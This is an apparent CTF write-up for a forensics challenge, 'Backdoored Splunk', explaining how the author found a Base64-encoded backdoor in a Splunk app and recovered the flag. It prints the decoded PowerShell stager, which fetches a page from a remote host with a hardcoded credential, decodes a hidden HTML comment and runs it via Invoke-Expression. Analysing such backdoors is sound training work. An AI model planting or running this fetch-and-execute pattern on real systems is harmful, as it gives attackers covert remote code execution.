 # Backdoored Splunk - Forensics - medium

Author: Adam Rice

You've probably seen Splunk being used for good, but have you seen it used for evil?

NOTE: the focus of this challenge should be on the downloadable file below. It uses the dynamic service that is started, but you must put the puzzle pieces together to be retrieve the flag. The connection error to the container is part of the challenge.

Download the file(s) below and press the Start button on the top-right to begin this challenge.

## Solution 

Initially, I encountered an error while visiting a site. As expected, the error message was: {"error": "Missing or invalid Authorization header"}.

To investigate further, I performed a grep search for the term “auth".
![Alt text](image.png)

I found a suspicious string and decided to Base64 decode it ![Alt text](image-1.png)

Pulled the block of code out and set the port number currently being used 

```
@($html = (Invoke-WebRequest http://chal.ctf.games:32539 -Headers @{Authorization=("Basic YmFja2Rvb3I6dXNlX3RoaXNfdG9fYXV0aGVudGljYXRlX3dpdGhfdGhlX2RlcGxveWVkX2h0dHBfc2VydmVyCg==")} -UseBasicParsing).Content
if ($html -match '<!--(.*?)-->') {
    $value = $matches[1]
    $command = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($value))
    Invoke-Expression $command
})
```

Finally, I ran the PowerShell code using `pwsh` and obtained the flag:

![Alt text](image-2.png)

flag of `flag{60bb3bfaf703e0fa36730ab70e115bd7}`